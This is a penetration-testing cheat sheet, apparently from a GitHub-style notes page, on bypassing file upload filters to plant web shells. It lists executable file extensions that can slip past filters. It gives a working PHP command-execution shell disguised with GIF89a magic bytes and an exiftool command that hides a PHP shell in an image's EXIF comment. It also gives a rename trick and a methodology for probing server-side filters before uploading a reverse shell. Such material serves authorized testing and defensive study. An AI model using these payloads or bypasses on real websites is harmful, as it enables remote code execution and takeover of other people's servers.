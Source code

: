 # Bypassing File Upload Filtering

## Rename it

* rename the shell and upload it as shell.php.jpg
* it can pass the filter and the file is executed as php

### PHP

* phtml
* .php
* .php3
* .php4
* .php5
* .inc

### asp

* asp
* .aspx

### Perl

* .pl
* .pm
* .cgi
* .lib

### jsp

* .jsp
* .jspx
* .jsw
* .jsv
* .jspf

### Coldfusion

* .cfm
* .cfml
* .cfc
* .dbm

## GIF89a;

* If the content is checked, add the text "GIF89a;" before you shell code

```bash
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In Image

* exiftool is a great tool to view and manipulate exif-data

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

### Then Rename the File

```bash
mv lo.jpg lo.php.jpg
```

## Methodology

1. The first thing we would do is take a look at the website as a whole. Using browser extensions such as Wappalyzer (or by hand) we would look for indicators of what languages and frameworks the web application might have been built with. Be aware that Wappalyzer is not always 100% accurate. A good start to enumerating this manually would be by making a request to the website and intercepting the response with Burpsuite. Headers such as `server` or `x-powered-by` can be used to gain information about the server. We would also be looking for vectors of attack, like, for example, an upload page.\

2. Having found an upload page, we would then aim to inspect it further. Looking at the source code for client-side scripts to determine if there are any client-side filters to bypass would be a good thing to start with, as this is completely in our control.\

3. We would then attempt a completely innocent file upload. From here we would look to see how our file is accessed. In other words, can we access it directly in an uploads folder? Is it embedded in a page somewhere? What's the naming scheme of the website? This is where tools such as Gobuster might come in if the location is not immediately obvious. This step is extremely important as it not only improves our knowledge of the virtual landscape we're attacking, it also gives us a baseline "accepted" file which we can base further testing on.\

   * An important Gobuster switch here is the `-x` switch, which can be used to look for files with specific extensions. For example, if you added `-x php,txt,html` to your Gobuster command, the tool would append `.php`, `.txt`, and `.html` to each word in the selected wordlist, one at a time. This can be very useful if you've managed to upload a payload and the server is changing the name of uploaded files.\

4. Having ascertained how and where our uploaded files can be accessed, we would then attempt a malicious file upload, bypassing any client-side filters we found in step two. We would expect our upload to be stopped by a server side filter, but the error message that it gives us can be extremely useful in determining our next steps.

Assuming that our malicious file upload has been stopped by the server, here are some ways to ascertain what kind of server-side filter may be in place:

* If you can successfully upload a file with a totally invalid file extension (e.g. `testingimage.invalidfileextension`) then the chances are that the server is using an extension blacklist to filter out executable files. If this upload fails then any extension filter will be operating on a whitelist.\

* Try re-uploading your originally accepted innocent file, but this time change the magic number of the file to be something that you would expect to be filtered. If the upload fails then you know that the server is using a magic number based filter.\

* As with the previous point, try to upload your innocent file, but intercept the request with Burpsuite and change the MIME type of the upload to something that you would expect to be filtered. If the upload fails then you know that the server is filtering based on MIME types.\

* Enumerating file length filters is a case of uploading a small file, then uploading progressively bigger files until you hit the filter. At that point you'll know what the acceptable limit is. If you're very lucky then the error message of original upload may outright tell you what the size limit is. Be aware that a small file length limit may prevent you from uploading the reverse shell we've been using so far.

## References and More Things to Read

* [http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)
* [https://www.owasp.org/index.php/Unrestricted\_File\_Upload](https://www.owasp.org/index.php/Unrestricted\_File\_Upload)
* [http://repository.root-me.org/Exploitation - Web/EN - Webshells In PHP, ASP, JSP, Perl, And ColdFusion.pdf](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf)
* [https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
* [https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/)
* [http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)
* [http://www.net-informations.com/faq/asp/validation.htm](http://www.net-informations.com/faq/asp/validation.htm)
* [https://owasp.org/www-community/vulnerabilities/Unrestricted\_File\_Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted\_File\_Upload)
* [https://www.sitepoint.com/mime-types-complete-list/](https://www.sitepoint.com/mime-types-complete-list/)
* [https://www.w3schools.com/php/php\_file\_upload.asp](https://www.w3schools.com/php/php\_file\_upload.asp)
* [https://en.wikipedia.org/wiki/List\_of\_file\_signatures](https://en.wikipedia.org/wiki/List\_of\_file\_signatures)
